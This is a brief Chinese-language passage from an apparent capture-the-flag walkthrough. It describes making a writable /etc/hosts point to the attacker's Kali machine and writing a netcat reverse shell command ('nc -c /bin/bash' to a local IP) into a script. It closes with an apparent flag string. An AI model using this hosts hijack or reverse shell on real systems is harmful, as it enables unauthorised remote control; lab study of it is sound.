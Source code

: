 利用脚本检测还可以发现 /etc/hosts是可以修改的

我们直接修改这个hosts指向我们的kali

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.009.png)

kali开一个服务器，在ihearyou.sh里面写入反弹shell的命令

```TypeScript
nc -c /bin/bash 192.168.9.3 1234
```


```Shell
HMVthxforlisten
```


